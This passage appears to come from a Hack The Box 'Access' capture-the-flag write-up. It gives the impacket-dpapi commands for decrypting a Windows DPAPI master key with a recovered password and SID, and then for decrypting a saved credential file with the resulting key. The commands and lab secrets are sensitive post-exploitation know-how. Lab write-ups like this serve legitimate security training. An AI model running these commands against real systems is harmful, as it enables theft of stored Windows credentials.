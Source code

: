 After copying both the MasterKey and the Credential file make sure to remove the ——-CERTIFICATE——- tags.

![image.png](/assets/images/Access_HTB/image%2026.png)

Now we use impacket’s DPAPI to decrypt the masterkey.

```bash
impacket-dpapi masterkey -file 'masterkey' -password '4Cc3ssC0ntr0ller' -sid 'S-1-5-21-953262931-566350628-63446256-1001'
```

![image.png](/assets/images/Access_HTB/image%2027.png)

Now we have the decrypted key.

Lets use this decrypted key to decrypt the credential file.

```bash
impacket-dpapi credential -file 'credential' -key '0xb360fa5dfea278892070f4d086d47ccf5ae30f7206af0927c33b13957d44f0149a128391c4344a9b7b9c9e2e5351bfaf94a1a715627f27ec9fafb17f9b4af7d2'
```

![image.png](/assets/images/Access_HTB/image%2028.png)

